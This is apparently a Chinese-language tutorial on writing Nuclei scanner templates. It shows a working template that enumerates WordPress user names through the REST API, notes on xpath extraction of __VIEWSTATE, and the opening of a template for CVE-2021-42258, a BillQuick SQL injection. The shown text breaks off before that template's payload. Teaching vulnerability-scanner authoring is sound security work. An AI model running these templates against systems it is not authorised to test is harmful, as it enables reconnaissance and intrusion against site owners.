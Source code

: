 ```
requests:
  - method: GET
    path:
      - "{{BaseURL}}/wp-json/wp/v2/users/"
      - "{{BaseURL}}/?rest_route=/wp/v2/users/"
    stop-at-first-match: true
    matchers-condition: and
    matchers:
      - type: status
        status:
          - 200
      - type: word
        part: header
        words:
          - "application/json"
      - type: word
        words:
          - '"id":'
          - '"name":'
          - '"avatar_urls":'
        condition: and
    extractors:
      - type: json
        json:
          - '.[].name'

# Enahnced by mp 03/31/2022
```
<a name="cHqxg"></a>
## 1.10 基于xpath匹配响应结果
**关键点说明**<br />1、自动使用cookie，cookie-reuse: true<br />2、基于xpath抽取extractors，type: xpath，并定义名为VS，internal: true替换后续payload的变量<br />3、xpath匹配到的属性：attribute: value<br />4、定义xpath，"/html/body/form/div/input[@id='__VIEWSTATE']"，需要特别注意的是，编写xpath的时候记得要灵活些，本案列中的xpath不足是什么，你是否看出来了？如果dom结构变化，这xpath就失效了，如何解决？自行实践、验证"//input[@id='__VIEWSTATE']"
<a name="uYoCv"></a>
# 
**参考代码**
```
id: CVE-2021-42258

info:
  name: BillQuick Web Suite SQL Injection
  author: dwisiswant0
  severity: critical
  tags: cve,cve2021,sqli,billquick
  description: BQE BillQuick Web Suite 2018 through 2021 before 22.0.9.1 allows SQL injection for unauthenticated remote code execution. Successful exploitation can include the ability to execute arbitrary code as MSSQLSERVER$ via xp_cmdshell.
  reference:
    - https://www.huntress.com/blog/threat-advisory-hackers-are-exploiting-a-vulnerability-in-popular-billing-software-to-deploy-ransomware
    - https://nvd.nist.gov/vuln/detail/CVE-2021-42258
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
    cvss-score: 9.80
    cve-id: CVE-2021-42258
    cwe-id: CWE-89

requests:
  - raw:
      - |
        GET / HTTP/1.1
```